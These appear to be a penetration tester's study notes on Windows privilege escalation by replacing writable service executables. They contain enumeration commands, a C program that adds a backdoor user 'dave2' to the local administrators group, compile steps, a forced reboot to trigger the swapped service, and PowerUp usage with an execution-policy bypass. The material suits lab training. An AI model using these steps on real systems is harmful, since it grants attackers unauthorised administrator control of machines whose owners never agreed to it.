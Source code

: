 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Get a list of all installed Windows services:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Any program that is not listed in the C:\Windows\System32 directory (e.g. C:\xampp\\) can be assumed to be user installed

Use icacls to list permissions on a file:
```
icacls "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
```

Use sc to determine who the service starts as:
```
sc.exe \\localhost qc audittracker | findstr SERVICE_START_NAME
```

|Mask|Permissions|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

***Exploit Vulnerability***
- On kali: Create C program adduser.c
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
- compile:
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

On victim: Check Startmode of a service:
```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

Check to see if we have Shutdown priv. NOTE: The _Disabled_ state only indicates if the privilege is currently enabled for the running process, if the priv is listed at all the user has the priv:
```
whoami /priv
```

Issue a restart command:
```
shutdown /r /t 0
```

Check to see if the user was added to the admins group:
```
Get-LocalGroupMember administrators
```

Use Powerup to find vulnerable services:
```
powershell -ep bypass
```
```
. .\PowerUp.ps1
```
```
Get-ModifiableServiceFile
```

NOTE:
- sc.exe might have to be used to stop/start services in order to make it run as nt/authority